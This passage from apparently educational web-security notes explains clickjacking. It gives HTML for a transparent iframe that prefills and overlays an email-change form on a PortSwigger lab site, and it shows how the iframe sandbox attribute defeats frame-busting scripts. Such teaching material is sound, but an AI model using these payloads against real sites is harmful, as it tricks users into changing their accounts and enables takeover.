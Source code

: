 For example, after logging in there may be an option to change the email. Try checking the name of the input field such as `email` and submitting it as a GET request and check if prepopulation happens:

```html
?email=blah@blah.com
```

If it pre-populates, an iframe can be crafted to pre-fill and then click the update email button:

```html
<style>
    iframe {
        position:relative;
        width: 700px;
        height: 500px;
        opacity: 0.1;
        z-index: 2;
    }
    div {
        position:absolute;
        top: 400px;
        left: 80px;
        z-index: 1;
    }
</style>
<div>Test me</div>
<iframe src="https://0a85008e03dfa41585b480da00b3004a.web-security-academy.net/my-account?email=blah@blah.com"></iframe>
```
# Frame Busting Scripts

A common protection is using frame busting or frame breaking scripts which are implemented via proprietary browser JavaScript add-ons or extensions like NoScript. Scripts may do all or some of the following:

- check and enforce the current app window is the main or top window
- make all frames visible
- prevent clicking on invisible frames
- intercept and flag potential clickjacking attacks to the user

They are often browser/platform specific. They can usually be circumvented. Since they are JavaScript, the browser security settings may prevent their operation or the browser might not even support JavaScript. An effective workaround is using the HTML5 iframe `sandbox` attribute.

When set with `allow-forms` or `allow-scripts` values and the `allow-top-navigation` is left out, the frame busting script is neutralized as the iframe cannot check if it is the top window such as:

```html
<iframe id="victim_website" src="https://victim-website.com" sandbox="allow-forms"></iframe>
```

The `allow-forms` and `allow-scripts` permit the specified actions within the `iframe` but top-level navigation is disabled.
